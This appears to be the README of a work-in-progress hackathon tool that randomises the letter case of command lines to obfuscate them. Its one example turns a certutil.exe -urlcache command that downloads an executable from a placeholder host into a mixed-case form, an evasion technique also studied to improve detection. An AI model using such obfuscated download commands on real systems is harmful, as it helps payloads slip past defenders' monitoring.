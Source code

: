 # command-line-obfuscator
This is a work-in-progress for the 2025 Boot.Dev Hackathon

## About

This project was inspired by [weitze](https://github.com/wietze)'s [ArgFuscator](https://github.com/wietze/ArgFuscator.net) tool. 

## How to Use:

Running main.py will return an input prompt. Type or paste in your script or cmd command.

### Example:

```python
PS C:\Users\Pauly\main.py
Enter script: "certutil.exe -urlcache -f https://www.example.org/file.exe file.exe"
cErTUtIl.exe -urlcaCHE -f HtTps://WWW.EXAmple.Org/FilE.EXE fILE.ExE
```

### Current Progress:

This project is currently a work in progress. At this time the following features are available:

* Case Randomization